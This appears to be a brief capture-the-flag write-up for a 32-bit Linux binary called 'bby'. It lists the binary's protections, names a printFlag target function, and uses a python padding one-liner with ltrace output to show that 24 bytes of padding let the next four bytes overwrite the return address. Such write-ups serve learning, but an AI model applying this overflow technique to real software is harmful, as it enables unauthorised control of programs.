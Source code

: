 0x0 Introduction
=

`bby: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3fb9014d549efe4ce761146b736590eb9f7e281d, not stripped
`

This file is ELF 32bit execution.

	CANARY    : disabled

	FORTIFY   : disabled

	NX        : ENABLED

	PIE       : disabled
	
	RELRO     : Partial

It have those protect.

`0804856d <printFlag>:`

And there hava a function call printFlag.If I can controller eip and jump to this function,I will get the flag.

0x1 Vulnerability
=

	# python -c "print 'a'*24+'zzzz'"|ltrace -i ./bby 

	[0x8048491] __libc_start_main(0x80485c9, 1, 0xffb97214, 0x8048610 <unfinished ...>

	[0x80485de] puts("This program is hungry. You shou"...This program is hungry. You should feed it.) = 44

	[0x80485f2] __isoc99_scanf(0x80486d8, 0xffb97164, 0xffb9721c, 0xf75573fd) = 1

	[0x80485fe] puts("Do you feel the flow?"Do you feel the flow?)        = 22

	[0x7a7a7a7a] --- SIGSEGV (Segmentation fault) ---

	[0xffffffffffffffff] +++ killed by SIGSEGV +++

It's easy to exploit,When input padding 24bytes,Next 4 bytes will be return address.
